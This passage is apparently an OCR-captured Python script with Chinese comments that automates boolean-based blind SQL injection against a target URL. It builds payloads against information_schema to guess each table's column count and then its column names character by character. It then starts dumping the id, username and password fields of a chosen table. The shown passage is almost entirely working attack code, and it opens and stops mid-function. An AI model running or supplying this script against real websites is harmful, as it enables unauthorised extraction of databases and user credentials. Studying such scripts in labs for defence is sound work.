 ```python
	column_num(table_list,db_name) #进行下一步，猜解每张表的字段数

def column_num(table_list,db_name):
	print("[-]开始猜解每张表的字段数：.......")
	column_num_list=[]
	for i in table_list:
		for j in range(30): #每张表的字段数量，合理范围即可
			column_payload=url+"' and %d=(select count(column_name) from information_schema.columns where table_schema='%s' and table_name='%s')--+"%(j,db_name,i)
			r=requests.get(column_payload)
			if str in r.text:
				column_num=j
				column_num_list.append(column_num) #把所有表的字段，依次放入这个列表当中
				print("[+]%s表\t%s个字段"%(i,column_num))
				break
	print("\n[+]表对应的字段数：%s\n"%column_num_list)
	column_name(table_list,column_num_list,db_name) #进行下一步，猜解每张表的字段名

def column_name(table_list,column_num_list,db_name):
	print("[-]开始猜解每张表的字段名.......")
	column_length=[]
	str_list=ascii_str()
	column_name_list=[]
	for t in range(len(table_list)): #t在这里代表每张表的列表索引位置
		print("\n[+]%s表的字段："%table_list[t])
		for i in range(column_num_list[t]): #i表示每张表的字段数量
			column_name=''
			for j in range(1,21): #j表示每个字段的长度
				column_name_length=url+"' and %d=(select length(column_name) from information_schema.columns where table_schema='%s' and table_name='%s' limit %d,1)--+"%(j-1,db_name,table_list[t],i)
				#print("pppppppp"+column_name_length)
				r=requests.get(column_name_length)
				if str in r.text:
					column_length.append(j)
					break
				for k in str_list: #k表示我们猜解的字符字典
					column_payload=url+"' and ord(mid((select column_name from information_schema.columns where table_schema='%s' and table_name='%s' limit %d,1),%d,1))=%d--+"%(db_name,table_list[t],i,j,ord(k))
					r=requests.get(column_payload)
					if str in r.text:
						column_name+=k
			print('[+]：%s'%column_name)
			column_name_list.append(column_name)
	#print(column_name_list)#输出所有表中的字段名到一个列表中
	dump_data(table_list,column_name_list,db_name) #进行最后一步，输出指定字段的数据

def dump_data(table_list,column_name_list,db_name):
	print("\n[-]对%s表的%s字段进行爆破.......\n"%(table_list[3],column_name_list[9:12]))
	str_list=ascii_str()
	for i in column_name_list[9:12]: #id,username,password字段
		data_num = 0
		for j in range(101):#j表示有多少条数据，合理范围即可
			data_num_payload=url+"' and (select count(%s) from %s.%s)=%d--+"%(i,db_name,table_list[3],j)
			#print('pppppppp'+data_num_payload)
			r=requests.get(data_num_payload)
			if str in r.text:
				data_num=j
				break
		print("\n[+]%s表中的%s字段有以下%s条数据："%(table_list[3],i,data_num))
		for k in range(data_num):
			data_len=0
```